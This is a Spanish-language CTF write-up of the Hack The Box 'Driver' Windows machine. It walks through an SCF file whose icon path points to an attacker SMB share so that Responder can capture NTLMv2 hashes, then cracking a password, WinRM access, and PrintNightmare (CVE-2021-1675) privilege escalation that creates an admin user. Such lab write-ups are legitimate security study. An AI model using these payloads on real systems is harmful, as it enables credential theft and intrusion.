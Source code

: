 ```yaml
---
title: "Driver - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://raw.githubusercontent.com/Wiinsad/Wiinsad.github.io/master/assets/images/machines/HTB/driver/data/driver.png"
  teaser_home_page: true
  icon: "https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/icons/Hackthebox2.png?raw=true"
categories:
  - Writeup
  - HackTheBox
tags:
  - SMB
  - SCF File Attack
  - SMB Relay Attack
---
```


<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/Wiinsad.github.io/master/assets/images/machines/HTB/driver/data/driverHTB.png">
</p>

La máquina **Driver** es una máquina virtual vulnerable de la plataforma HackTheBox con un nivel de dificultad **EASY** una calificación en el rank de 4.7, **9550 USER OWNS** y **8344 SYSTEM OWNS** con la ip **10.10.11.106** y un sistema operativo **Windows**.

## Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.11.106]** utilizando los parámetros:
- **-p-:**    Escaneo a toda la gama de puertos (65536).
- **-n:**     No hacen la resolución del DNS.
- **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
- **--open:** Muestra sólo los puertos con un estatus abierto.
- **-oG:**    Guarda la el output en formato Grepeable.


  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/scanPort.png">
  </p>


  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPorts**, vemos que los puertos que destacaron en este caso fueron **80,135,445,5985**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/Ports.png">
  </p>


  Ya identificados los puertos abiertos realizare un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/Portserv.png">
  </p>

  El resultado de el scaneo a puertos y servicios no mostró información interesante así que iniciare la fase de reconocimiento mediante el servicio web aprovechando que esta el puerto **80** abierto.

  Al entrar a la pagina se puede ver un panel de inicio de sesión y probando credenciales básicas como **admin - admin** se puede acceder a la pagina.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/web.png">
  </p>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/web1.png">
  </p>

  Examinando la pagina se puede llegar al apartado de **Firmware Update** y hay un texto muy interesante el cual dice que **Nuestro equipo de testeo revisará las cargas e iniciará las pruebas en breves**

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/web2.png">
  </p>

  Buscando formas de ingresar una rever shell o algún binario con código malicioso no se llego a ningún resultado y analizando el texto y recordando que esta **SMB** abierto podemos hacer un ataque **SCF File Attack** esto mediante la creación de un archivo SCF (Shell Command Files) el cual sirve para realizar un conjunto limitado de operaciones como mostrar el escritorio de Windows o abrir un explorador de Windows un archivo SCF puede ser utilizado para acceder a una ruta UNC que se usan para acceder a los recursos de red.

  Todo esto se puede usar para que cuando la victima descargue el archivo el archivo tenga definido que el icono del mismo es un archivo en la red del atacante esto con el fin hacer un **SMB Relay** que es un ataque utilizado para llevar a cabo ataques **SMB man-in-the-middle** y de esta forma obtener los **Hashes NTLMv2** de usuario que esta descargando el archivo.

  Así que para hacer esto mencionado creare el archivo **SCF** con el siguiente contenido:

```powershell
[shell]
Command=2
IconFile=\\10.10.14.180\share\winsad.ico
[Taskbar]
Command=ToggleDesktop
```

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/scf.png">
</p>

Ya teniendo el archivo listo usare la herramienta llamada **responder** que esta programada en python y sirve para hacer los ataques SMB Relay.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/responder.png">
</p>

Ya listo el responder y esperando a eventos el siguiente paso subir el archivo en la web y esperar a que uno del equipo de testeo abra el archivo.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/responder1.png">
</p>

Una vez que se subo el archivo se puede ver como el usuario **Tony** abre el archivo y se ve como se obtiene el **hash NTLMv2**
del mismo.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/responder2.png">
</p>

Usando el la herramienta de **john** y el diccionario **rockyou.txt** se puede crackear el hash y se puede ver que la contraseña del usuario **Tony** es **liltony**

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/hash.png">
</p>

## Lateral Movement

Con esto que acabamos de conseguir y recordando la fase de scaneo podemos ver que el puerto **5985** que es **winrm** el servicio de escritorio remoto de Windows podemos intentar entrar con el usuario tony y su password que crackeamos.

Esto se hará con la herramienta **evil-winrm**:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/intrusion/winrm.png">
</p>

## Privilege escalation

Ya que estamos dentro de la maquina el siguiente paso es enumerar los privilegios y ver procesos activos en la maquina. Mediante se hace el reconocimiento se puede ver que existe un proceso poco usual en maquinas windows llamado **spoolsv**.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/intrusion/spoolsv.png">
</p>

Investigando se puede llegar a un repositorio de [github](https://github.com/calebstewart/CVE-2021-1675) este repositorio tiene un exploit el cual abusa de la vulnerabilidad con el **CVE: CVE-2021-1675**.

Así que sabiendo esto aprovechando la herramienta de **evil-winrm** usare el comando **upload** para subir el exploit de **powershell** a la maquina, para esto cree una carpeta llamada **winsad** en la ruta **/temp**:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/intrusion/exp1.png">
</p>

Ya una vez que subi el exploit y ejecute lo siguiente:

```powershell
  Set-ExecutionPolicy RemoteSigned -Scope CurrentUser
  Import-Module .\cve-2021-1675.ps1
  Invoke-Nightmare -DriverName "Xerox" -NewUser "winsad" -NewPassword "winsad"
```


Lo que hace el exploit es abusar de un DLL de este servicio **spoolsv** y crea un usuario nuevo y lo agrega al grupo de **administrador**.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/intrusion/root.png">
</p>


  Una vez ejecutado el exploit sin problemas vuelvo a entrar con **evil-winrm**  com las credenciales **winsad - winsad**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/intrusion/root1.png">
  </p>


  Y como se puede ver puedo acceder a la maquina con el usuario **winsad** el cual esta en el grupo **administrador**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/intrusion/root2.png">
  </p>
